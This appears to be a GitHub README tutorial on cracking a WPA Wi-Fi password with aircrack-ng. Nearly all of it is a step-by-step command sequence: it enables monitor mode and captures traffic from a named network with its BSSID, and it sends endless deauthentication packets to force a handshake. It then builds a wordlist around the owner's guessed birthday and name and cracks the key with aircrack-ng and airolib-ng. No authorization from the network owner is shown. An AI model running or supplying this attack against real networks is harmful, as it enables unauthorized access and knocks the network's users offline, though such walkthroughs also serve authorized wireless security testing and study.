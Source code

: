 # Example crack wpa attack with aircrack-ng

i use tp-link wn725n (chipset rtl8188eus) and parrotOS

connect your card wifi and check

```
iwconfig
```

![image](https://user-images.githubusercontent.com/90561566/168417974-d9650a49-951b-4a6f-ab8b-12e4f7cd7455.png)

```
airmon-ng check kill
airmon-ng start <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418068-964e3312-b269-44fc-9721-398be478f2ce.png)

```
airodump-ng <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418114-4d4e8f16-58ec-4358-bc99-dd625f4e7d26.png)

i will choose target is `Quang Minh 2G`, CH `11`, bssid `5C:1A:6F:88:19:19`

```
airodump-ng -c <CH> --bssid <bssid> -w out <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418356-e901847a-143e-4509-85b2-efeb783b1ca1.png)

new terminal

```
aireplay-ng --deauth 0 -a <bssid> <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418251-fe850fa5-0687-4241-836d-9d287f276e95.png)

wait about 5s, return airodump-ng terminal, if you see WPA handshake is okay and Ctrl+C to stop (both)

![image](https://user-images.githubusercontent.com/90561566/166421288-8ba74de3-f6f9-4973-be3e-d9aafd8fcb11.png)

```
ls
```

![image](https://user-images.githubusercontent.com/90561566/166421374-cfcf7080-c28a-402b-a6cb-9fda3a275a91.png)

create passlist

```
crunch <min> <max> <charset> -t <pattern> -o password.txt
```

because it's going to be a very, very large file, so i'm going to reveal that

the password is 8 numbers (i think it contains in his birthday) and 1 character (i think it contains in his name)

you can also use [Cupp](https://github.com/lucthienphong1120/cupp) to make such inferences

![image](https://user-images.githubusercontent.com/90561566/166604507-5c291bf0-6961-4a15-8c52-cf5faf0b749f.png)

the output file about 11,5 GB and 1,2 billion passwords

---

now you can crack wpa with

```
aircrack-ng -w password.txt out*.cap
```

or redirect directly from crunch

```
crunch <min> <max> <charset> -t <pattern> | aircrack-ng -w- out*.cap
```

![image](https://user-images.githubusercontent.com/90561566/166444763-a0cb15e0-309f-430e-bc6d-ce92e7863f0e.png)

---

but i will use database to speed up the attack

it will take more time to set up the database (but it will be much faster than regular crack)

you should only use it if you create a permanent database for crack because it will take a long time (or the passlist is not too long)

install sqlite3 `sudo apt install sqlite3`

create a file `essid.txt` this write name of target wifi

![image](https://user-images.githubusercontent.com/90561566/166434891-81c08ca3-48ff-4579-9a74-fe6e65634b42.png)

```
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
```

![image](https://user-images.githubusercontent.com/90561566/166435872-44a73959-3784-41c3-849a-5c1aa823dcd4.png)

```
airolib-ng crackwpa --batch
```

![image](https://user-images.githubusercontent.com/90561566/166454564-9b6cd253-74a0-4304-b94e-988a3e92f825.png)


now crack with database, you will be surprised

```
aircrack-ng -r crackwpa out*.cap
```

done! there is the password (crack speed is about 36 GB/s)

![image](https://user-images.githubusercontent.com/90561566/166684325-e337e6cd-f376-4172-91a2-617a80a3156c.png)

```
airmon-ng stop <iface>
service NetworkManager restart
```

![image](https://user-images.githubusercontent.com/90561566/168418601-6af69920-10bc-47ea-b5d7-7d5fc0ea3017.png)










